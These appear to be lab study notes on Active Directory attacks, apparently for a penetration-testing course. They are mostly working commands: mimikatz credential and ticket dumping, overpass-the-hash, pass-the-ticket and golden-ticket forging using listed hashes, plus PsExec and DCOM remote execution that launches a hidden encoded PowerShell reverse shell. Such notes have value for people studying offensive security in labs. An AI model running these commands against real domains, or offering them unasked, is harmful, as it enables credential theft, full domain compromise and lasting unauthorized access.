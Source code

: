 Right click the notepad -> run as different user -> use mimikatz to dump the NTLM hash of user.
Then, in mimikatz, over path the hash:
```powershell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
 Then, generate a TGT by authenticating to a network share on the files04 server with **net use**.
```powershell
net use \\files04
```
Then we get TGT and TGS, and we can check it by `klist`.
We can reuse the TGT to obtain code execution on target host.
```powershell
.\PsExec.exe \\files04 cmd
```
## Pass the Ticket
 Extract all the current TGT/TGS in memory and inject one valid TGS into our own session.
 In mimikatz:
```powershell
privilege::debug
sekurlsa::tickets /export
```
Verify tickets that exported.
```powershell
dir *.kirbi
```
inject one through mimikatz in corresponding format.
```powershell
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
## DCOM
Interaction with DCOM is performed over **RPC on TCP port 135** and **local administrator access** is required to call the **DCOM Service Control Manager**
Specifying the target IP:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```
invoke Reverse shell:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdA...","7")
```
## AD Persistence
### Golden Ticket
If we have `krbtgt` password hash, we could create our own self-made custom TGTs.
Extract the password hash of the _krbtgt_ account with Mimikatz:
```powershell
privilege::debug
lsadump::lsa /patch
```
Delete any existing Kerberos tickets in mimikatz
```powershell
kerberos::purge
```
Create the golden ticket in mimikatz:
```powershell
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```
launch a new command prompt
```powershell
misc::cmd
```
Complete.
